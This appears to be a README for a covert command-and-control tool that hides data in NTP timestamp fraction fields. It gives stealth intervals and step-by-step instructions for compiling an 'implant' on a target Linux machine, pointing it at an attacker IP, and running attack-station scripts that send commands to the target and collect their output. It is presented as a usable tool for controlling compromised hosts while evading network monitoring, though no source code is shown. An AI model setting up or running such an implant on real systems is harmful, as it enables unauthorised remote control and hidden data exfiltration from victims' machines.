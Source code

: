 Killer Bees Kovert Bannel

Hijack NTP packets
Use the fraction portion of the time-stamp
32-bits per packet = 4 bytes
Normal interval = 64 seconds
Aggressive interval = 8 seconds
Blendy interval = 1 hour
invisible interval = 1 day lol

HOW TO USE:

1. Compile C code on target machine (Code is designed for linux)
    - ```gcc implant.c -o implant```
2. Ensure Python is installed and install NTP python library on Attack Station
    - ```pip install ntplib```
3. Run both python scripts in separate terminals on Attack Station
    - ```sudo python3 attackbox.py```
    - ```sudo python3 server.py```
4. Run C Code on target machine
    - ```./implant <timeInterval(s)> <Target IP> <Attack IP>
5. Once you receive "Type your message" on attackbox terminal, input your desired command in and press enter
6. Receive output on server terminal
7. Be Happy :) <--- He has lipstic on VSCode